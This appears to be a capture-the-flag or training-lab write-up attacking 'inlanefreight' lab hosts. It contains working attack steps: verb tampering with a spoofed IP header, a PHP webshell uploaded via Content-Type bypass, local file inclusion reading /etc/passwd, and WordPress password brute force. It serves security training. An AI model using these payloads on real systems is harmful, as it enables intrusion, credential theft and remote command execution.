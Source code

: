 ### 🔧 dev.inlanefreight.local - Key Vault
```bash
# Directory enumeration
gobuster dir -u http://dev.inlanefreight.local -w /usr/share/wordlists/dirb/common.txt -x .php -t 300

# Key discoveries:
/uploads/               # Directory listing enabled
/upload.php            # HTTP 403 but responds with 200

# HTTP Verb Tampering exploitation:
TRACK /upload.php HTTP/1.1
Host: dev.inlanefreight.local
X-Custom-IP-Authorization: 127.0.0.1

# Result: File upload form revealed
```

### 🔺 Unrestricted File Upload Chain
```bash
# 1. Create PHP webshell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

# 2. Upload with Content-Type bypass
Content-Type: image/png  # Instead of application/x-php

# 3. Command execution
curl "http://dev.inlanefreight.local/uploads/shell.php?cmd=id"
# Output: uid=33(www-data) gid=33(www-data)
```

### 💰 ir.inlanefreight.local - WordPress
```bash
# WPScan enumeration
wpscan -e ap -t 500 --url http://ir.inlanefreight.local

# Key findings:
- WordPress 6.0 (latest)
- mail-masta plugin (vulnerable to LFI)
- Users: ilfreightwp, tom, james, john

# LFI exploitation (Mail Masta plugin):
curl "http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"

# Password brute force:
wpscan --url http://ir.inlanefreight.local -P passwords.txt -U ilfreightwp
# Result: ilfreightwp:password1

# WordPress admin access → Theme editor → PHP shell injection
```
